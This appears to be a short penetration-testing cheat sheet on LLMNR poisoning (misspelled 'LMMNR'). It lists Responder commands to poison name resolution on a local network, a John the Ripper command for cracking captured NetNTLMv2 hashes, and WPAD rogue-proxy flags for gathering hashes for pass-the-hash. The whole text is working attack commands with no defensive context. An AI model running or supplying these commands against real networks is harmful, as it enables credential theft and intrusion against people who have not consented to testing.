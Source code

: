 ## LMMNR Poisoning
### Responder
sudo /opt/responder/Responder.py -I eth0
sudo /opt/responder/Responder.py -I eth0 -i 10.10.75.1
john file --format=netntlmv2

### get hashes for pth
sudo /opt/responder/Responder.py --help 
	wpad rogue proxy server attack or wredir 
	-r or -w 